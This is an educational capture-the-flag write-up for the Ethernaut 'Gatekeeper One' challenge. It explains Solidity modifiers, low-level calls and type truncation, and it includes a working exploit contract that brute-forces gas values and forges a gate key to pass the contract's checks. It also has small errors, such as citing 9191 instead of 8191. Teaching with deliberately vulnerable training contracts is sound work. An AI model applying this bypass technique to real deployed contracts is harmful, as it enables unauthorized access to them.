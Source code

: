 # Writeup for Gatekeeper One

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. For each challenge, a contract will be deployed, and an instance will be provided. Your task is to interact with the contract and exploit its vulnerabilities. Don't worry if you are new to Solidity and have never deployed a smart contract. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Make it past the gatekeeper and register as an entrant to pass this level.

### Contract Explanation

Click [here] to view the contract.

If you understand the contract, you can move to the [exploit](#exploit) part. If you are a beginner, please go through the Contract Explanation as well. It will help you understand Solidity better.

<details>
<summary>Click to view the source contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

</details>

The contract has a state variable named `entrant`. The state variable `entrant` is a **address** type.

Modifiers in Solidity are special functions that modify the behavior of other functions.

<details>
<summary>Click to check the below example.</summary>

```solidity

contract A{
    address owner;
    constructor(){
        owner=msg.sender;
    }

    function hello() public view returns (string memory){
        require(msg.sender==owner,"Not Owner");
        return "hello";
    }

    function hi() public view returns (string memory){
        require(msg.sender==owner,"Not Owner");
        return "hi";
    }
}


contract B{
    address owner;
    constructor(){
        owner=msg.sender;
    }

    modifier onlyOwner(){
        require(msg.sender==owner,"Not Owner");
    _;
    }

    function hello() public view returns (string memory) onlyOwner{
        return "hello";
    }

    function hi() public view returns (string memory) onlyOwner{
        return "hi";
    }
}
```

</details>
If we see the contracts we can observe that in the first contract, we have written the same checks in two functions but in the second one we have written the checks in a modifier and we used a modifier in each function.

When we use `modifier` to a function, the function will first implement the `modifier` logic and then implement the function logic. By using modifiers we can write more optimized code.

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

The above is a modifier named `gateOne()` which checks whether `tx.origin` is equal to `msg.sender` or not.

```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```

The above is a modifier named `gateTwo()`. It checks if `gasleft()%8191` is zero or not. `gasleft()` is an inbuilt function in the solidity that returns the amount of gas left during a contract call. In this case when the gateTwo() is called if `gasleft%8191==0` then the modifier will be passed.

```solidity

modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
}

```

```solidity
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
}
```

The above function takes a **bytes8** argument as input. It executes all the `modifiers` one by one then if all the conditions in `modifiers` are passed then it will set entrant to `tx.origin` and returns `true`.

### Key Concepts to Understand

To exploit this contract we need to understand some key concepts in solidity.

When we interact with contracts using low-level call function it won't revert even if the calls failed. It will just return true or false.

<details>
<summary>Click to check the below example.</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract contract_One{
    function Wish(uint8 _num)public pure returns(string memory){
        if(_num%2==0){
            return "hello";
        }
        else{
            revert();
        }

    }
}

contract contract_two{
    bool public first_call;
    bool public second_call;
    bytes4 private constant FUNC_SELECTOR = bytes4(keccak256("Wish(uint8)"));

    function call_Wish(address _wish)public{
        (bool a,)=_wish.call(abi.encodeWithSelector(FUNC_SELECTOR,2));
        (bool b,)=_wish.call(abi.encodeWithSelector(FUNC_SELECTOR,1));
        first_call=a;
        second_call=b;
    }
}

```

</details>
First deploy `contract_one` then deploy `contract_two`. When we invoke `call_Wish()` in `contract_two` the function will make two level calls to contract_one calling the function `Wish()`. The first will be successful but the second call will revert because we are passing odd number. `Wish()` returns true "hello" only when passing even numbers. If we pass an odd number it will revert.

Even though the inner second call is reverted it is not reverting the main call (call_Wish). This behavior is only due to `low-level call`. When we use `low-level call` if the call is successful it returns `true` else it will return `false`.

One more key concept to learn is how typecasting works.

In Solidity, when a `uint` with a larger number of bits is converted to a type with a smaller number of bits, the first bits/bytes of larger value will be truncated. Same way when a bytes with a larger number of `bytes` is converted to a smaller number of bytes the last bits/bytes will be truncated.

<details>

<summary>Click to check the below example.</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Type_Casting{
    uint96 Number_1=1548647896516548945453658536;
    bytes12 Bytes_1=bytes12((Number_1));
    function uint96_to_uint48()public view returns(bytes32 before_conversion,bytes32 after_conversion,uint48 converted_val){
    before_conversion=bytes32(uint256(Number_1));
    converted_val=uint48(Number_1);
    after_conversion=bytes32(uint256(converted_val));
 }

 function bytes12_to_bytes6()public view returns(bytes32 before_conversion,bytes6 converted_val,bytes32 after_conversion){
    before_conversion=bytes32(Bytes_1);
    converted_val=bytes6(Bytes_1);
    after_conversion=bytes32(converted_val);
 }

}

```

</details>

Make sure you try out this in the remix. When we call the functions `uint96_to_uint48()` and `bytes12_to_bytes6()` the output will be as follows.

<p align="center">
  <img src="img/img1.png" />
</p>

If we observe the data of `bytes12_to_bytes6()` when **bytes12** is converted to **bytes6** only the first 6 bytes are taken. If we observe the `uint96_to_uint48()` when uint96 is converted to uint48 only the last 48 bits (6 bytes) are taken. You can find the difference by observing `before_conversion` and `after_conversion`. In the `uint96_to_uint48()` you can verify the `converted_val` by converting `0x0000000000000000000000000000000000000000000000000000f750833e31a8` into decimal.

### Exploit

Our goal is to call the `enter()` function and pass all the gates (modifiers).

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

We can pass the `gateOne()` by interacting with the contract using our exploit contract. When we interact with GatekeeperOne using our exploit contract `msg.sender` will be our exploit contract address and `tx.origin` will be the address of the Externally Owned Account that is calling the exploit contract.

If you don't know what is `tx.origin` and `msg.sender` refer to the Telephone challenge. Chlick [here](../Telephone/WriteUp.md) to open the WriteUp.

```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```

It is checking if `gasleft()%9191==0` or not. `gasleft()` will return the remaining gas after executing the `gasleft()`. We can pass this modifier by making some 100 or 200 `low-level calls` to `GatekeeperOne` `enter()` function with different gas values. The low-level call function will return true only if the call is a success. Using this as an advantage we can pass this modifier.

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
 _;
}
```

Now let's assume our key as `B1 B2 B3 B4 B5 B6 B7 B8` where each B represents a byte. Since the key is 8 bytes there are 8 B's.

In the first condition, `uint32(uint64(_gateKey))` will return `B5 B6 B7 B8` and `uint16(uint64(_gateKey))` will return `B7 B8`. According to the condition, the bytes are `B5 B6 B7 B8` and `B7 B8`. This condition will only be satisfied if `B5` and `B6` are both zeros. Therefore, we can conclude that the last four bytes of our key will be `00 00 B7 B8`.

In the second condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint64(\_gateKey) will return `B1 B2 B3 B4 B5 B6 B7 B8`. The condition will be satisfied only if `B1 B2 B3 B4` are non-zeros. From this, we can conclude that the key will be `B1 B2 B3 B4 00 00 B7 B8`.

In the third condition uint32(uint64(\_gateKey)) will return `B5 B6 B7 B8` and uint16(uint160(tx.origin)) will return last two bytes of the address. Suppose if our address is `0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5` it will return `0xAfe5`. Assuming this as our wallet address we can conclude that our key will be `B1 B2 B3 B4 00 00 Af e5`.

The only restriction for `B1 B2 B3 B4` is it shouldn't be zero. That means this can be of any value. Now our key will be `aa bb cc dd 00 00 Af e5` which is `0xaabbccdd0000Afe5`.

Don't forget to change the last two bytes to your wallet address.

<details>

<summary>Click to check the exploit contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperOne} from "./GatekeeperOne.sol";


contract ExploitGatekeeperOne{
    GatekeeperOne Gate1;
    uint256 gasAmount=81910;
    constructor(address _addr){
        Gate1=GatekeeperOne(_addr);
    }
    function Exploit()public{
        bytes8 Key=0xaabbccdd0000Afe5;
        for(uint256 i=0;i<500;i++){
        (bool success,)=address(Gate1).call{gas:gasAmount+i}(abi.encodeWithSignature("enter(bytes8)",Key));
            if(success){
                break;
            }
        }
        require(Gate1.entrant()==0x95222290DD7278Aa3Ddd389Cc1E1d165CC4BAfe5);
    }
}
```

</details>

`gasAmount` is a multiple of `8191` because `i` will be the initial gas usage and after `i` amount of gas. Once the initial gas usage (calls before Gatetwo) is done the gasleft() will be multiple of 8191 and hence `gasleft()%8191` will return 0

Once you call the `Exploit()` function the challenge will be solved. But before calling make sure you change your address in the `ExploitGatekeeperOne` contract.

### Key Takeaways

We have learned about how typecasting works and we discussed how low-level call work. Refer [this](#key-concepts-to-understand) part if you forgot these.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
